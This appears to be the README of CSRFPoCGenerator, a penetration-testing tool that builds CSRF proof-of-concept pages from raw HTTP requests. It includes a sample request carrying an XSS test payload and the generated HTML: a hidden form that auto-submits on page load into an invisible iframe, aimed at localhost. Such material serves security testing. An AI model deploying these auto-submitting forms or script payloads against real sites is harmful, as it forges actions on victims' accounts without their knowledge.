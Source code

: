 # CSRFPoCGenerator
Generate CSRF PoC

---

## Parameters

- send : send type(Form or XHR)
- use fromCharCode : use fromCharCode (XHR only)
- transition on submit : force Transition on Submit
- automatic submitting : submit when opening HTML file
    - specifiable : specify value HTML page(beta)
- HTTP Request : set raw HTTP Request
- URL : Set URL
- method : Set method
- header :Set HTTP header (XHR only)
- enctype : Select enctype
    - boundary : Set boundary for multipart/form-data
- body : Set HTTP body
- title : Downloadable HTML title

## How to use

Click "analyze" to analyze HTTP request & paste

Click "generate and submit" to generate form & submit request.

Click "generate only" to just generate form.

Click "download HTML" to download CSRF PoC HTML.

## Example

### using HTTP Request

Enter the following value.

```
POST http://localhost/post.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: ja,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 78
Connection: keep-alive
Cookie: PHPSESSID=PaP2yx9xeWc10XV9mjxBjWb8iu3MmWb6
Upgrade-Insecure-Requests: 1

title=CSRF&name=hello+world&comment=%3Cscript%3Ealert%281%29%3B%3C%2Fscript%3E
```

Then click "analyze" and separate into 5 parameters(URL, method, header, enctype, body).

Then click "download HTML" and download a HTML file.


### using URL method etc...
Enter the following values.

- URL
```
http://localhost/post.php
```

- method
```
POST
```

- enctype
```
application/x-www-form-urlencoded (default)
```

- body
```
title=CSRF&name=hello+world&comment=%3Cscript%3Ealert(1)%3B%3C%2Fscript%3E
```

Then click "generate only" (or "generate and submit" ) and Output a HTML form (and submit request ).
```
<form target="dummyfrm" name="evilform" action="http://localhost/post.php" method="POST" enctype="application/x-www-form-urlencoded">
<input type="hidden" name="title" value="CSRF" />
<input type="hidden" name="name" value="hello world" />
<input type="hidden" name="comment" value="&lt;script&gt;alert(1);&lt;/script&gt;
" />
</form>
<iframe src="x" width="1" height="1" name="dummyfrm" style="visibility:hidden"></iframe>
```

- title
```
Hello CSRF PoC
```

Then click "download HTML" and download a HTML file.

```
<!DOCTYPE html>

<html>
<head>
<meta charset="utf-8">
<title>Hello CSRF PoC</title>
</head>
<body onload="document.evilform.submit();">
<form target="dummyfrm" name="evilform" action="http://localhost/post.php" method="POST" enctype="application/x-www-form-urlencoded">
<input type="hidden" name="title" value="CSRF" />
<input type="hidden" name="name" value="hello world" />
<input type="hidden" name="comment" value="&lt;script&gt;alert(1);&lt;/script&gt;" />
</form>
<iframe src="x" width="1" height="1" name="dummyfrm" style="visibility:hidden"></iframe>
<p>Hello CSRF PoC</p>
</body>
</html>
```

---

# Other

## URL encoding

- URLencode : Set string
```
<script>alert(1);</script>
```

Then click "URL encode" and encode input string.
```
%3Cscript%3Ealert(1)%3B%3C%2Fscript%3E
```

---

# Change log

v1.5

- added request header feature (XHR)
- added fromCharCode(XHR)

v1.4

- added raw Request
- added detect boundary
- added an option to specifiable value

v1.3

- added XHR multipart/form-data transmission
- added an option to send automatically
- arbitrary enctype

v1.2

- added XHR mode

v1.1

- added enctype setting
- added download function
- fixed typo

